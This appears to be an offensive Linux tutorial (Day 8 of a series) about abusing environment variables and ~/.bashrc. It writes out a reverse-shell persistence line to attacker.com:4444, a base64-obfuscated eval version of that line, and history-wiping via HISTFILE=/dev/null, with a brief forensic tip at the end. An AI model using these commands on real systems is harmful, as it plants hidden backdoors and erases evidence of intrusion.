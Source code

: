 # Day 8 – Environment Variables & .bashrc Abuse
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

Environment variables define the execution context of Linux shells. But in hacking, they can be used to hide payloads, manipulate system behavior, or establish persistence.

---

## 🌐 What Are Environment Variables?

Use these commands to list or reference variables:
```bash
printenv
env
echo $HOME
echo $PATH
```
| Variable    | Purpose                             |
| ----------- | ----------------------------------- |
| `$PATH`     | Defines where binaries are searched |
| `$USER`     | Current user                        |
| `$HOME`     | User's home directory               |
| `$SHELL`    | Default shell                       |
| `$HISTFILE` | Shell history file path             |

## 🧠 Why This Matters in Hacking
You can override $PATH to run your own malicious binaries

You can disable shell history:   
```
export HISTFILE=/dev/null
```
You can leak system info using environment variables   

## 📂 Bash Startup Files

| File              | Trigger                   |
| ----------------- | ------------------------- |
| `~/.bashrc`       | On each interactive shell |
| `~/.bash_profile` | On login                  |
| `/etc/profile`    | System-wide login config  |

## 🔁 Persistence with .bashrc
Inject a backdoor:   
```
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' >> ~/.bashrc
```

Or hide it in a more stealthy way:
```
echo "eval \$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vNDQ0NCAwPiYx | base64 -d)" >> ~/.bashrc
```
On next terminal session? Backdoor triggers.
``
### 🧪 Task of the Day
View `.bashrc`:
```
cat ~/.bashrc
```
Add a harmless test:
```
echo 'echo "Hacked by $USER on $(date)"' >> ~/.bashrc
```
Open a new terminal and observe.   
To clean it:
```
nano ~/.bashrc
```
## 🔐 Red Team + Blue Team Tips

| Use Case       | Technique                                                              |
| -------------- | ---------------------------------------------------------------------- |
| Persistence    | Append payload to `.bashrc`                                            |
| Log wiping     | Set `$HISTFILE=/dev/null`                                              |
| Evasion        | Use base64 + eval                                                      |
| IR / Forensics | Always check `.bashrc`, `.profile`, `/etc/profile` for unusual entries |

📡 Learn these techniques, payloads, and real-world red teaming via:   
➡️ https://t.me/cybersecplayground

---

Be ready for **Day 9**, where we’ll cover **processes, services**, and how hackers use `ps`, `top`, and `systemctl` to enumerate and escalate.




